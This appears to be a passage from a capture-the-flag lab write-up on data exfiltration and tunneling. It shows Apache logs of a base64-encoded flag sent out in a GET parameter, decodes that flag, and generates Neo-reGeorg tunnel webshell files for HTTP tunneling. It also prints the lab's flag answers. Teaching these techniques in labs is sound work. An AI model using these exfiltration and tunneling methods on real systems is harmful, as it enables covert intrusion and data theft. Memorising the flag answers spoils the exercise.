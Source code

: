 ```console
thm@web-thm:~$ sudo ls /var/log/apache2
[sudo] password for thm: 
access.log  error.log  other_vhosts_access.log
thm@web-thm:~$ sudo cat /var/log/apache2/access.log
192.168.0.133 - - [29/Apr/2022:11:41:54 +0100] "GET /example.php?flag=VEhNe0g3N1AtRzM3LTE1LWYwdW42fQo= HTTP/1.1" 200 495 "-" "curl/7.68.0"
192.168.0.133 - - [29/Apr/2022:11:42:14 +0100] "POST /example.php HTTP/1.1" 200 395 "-" "curl/7.68.0"
192.168.0.1 - - [20/Jun/2022:06:18:35 +0100] "GET /test.php HTTP/1.1" 200 195 "-" "curl/7.68.0"
thm@web-thm:~$ echo "VEhNe0g3N1AtRzM3LTE1LWYwdW42fQo=" | base64 -d
THM{H77P-G37-15-f0un6}
```
{: .nolineno }

Answer : THM{H77P-G37-15-f0un6}

### When you visit the http://flag.thm.com/flag website through the uploader machine via the HTTP tunneling technique, what is the flag?

First generate the tunnel.php file with neo-regeorg tool <https://github.com/L-codes/Neo-reGeorg>: 

```console
root@ip-10-10-133-162:/opt/Neo-reGeorg# python3 neoreg.py generate -k thm


          "$$$$$$''  'M$  '$$$@m
        :$$$$$$$$$$$$$$''$$$$'
       '$'    'JZI'$$&  $$$$'
                 '$$$  '$$$$
                 $$$$  J$$$$'
                m$$$$  $$$$,
                $$$$@  '$$$$_          Neo-reGeorg
             '1t$$$$' '$$$$<
          '$$$$$$$$$$'  $$$$          version 3.8.0
               '@$$$$'  $$$$'
                '$$$$  '$$$@
             'z$$$$$$  @$$$
                r$$$   $$|
                '$$v c$$
               '$$v $$v$$$$$$$$$#
               $$x$$$$$$$$$twelve$$$@$'
             @$$$@L '    '<@$$$$$$$$`
           $$                 '$$$


    [ Github ] https://github.com/L-codes/Neo-reGeorg

    [+] Mkdir a directory: neoreg_servers
    [+] Create neoreg server files:
       => neoreg_servers/tunnel.php
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel_compatibility.jspx
       => neoreg_servers/tunnel.jsp
       => neoreg_servers/tunnel_compatibility.jsp

root@ip-10-10-133-162:/opt/Neo-reGeorg# ls
CHANGELOG-en.md  LICENSE    neoreg_servers  README.md
CHANGELOG.md     neoreg.py  README-en.md    templates
```
{: .nolineno }
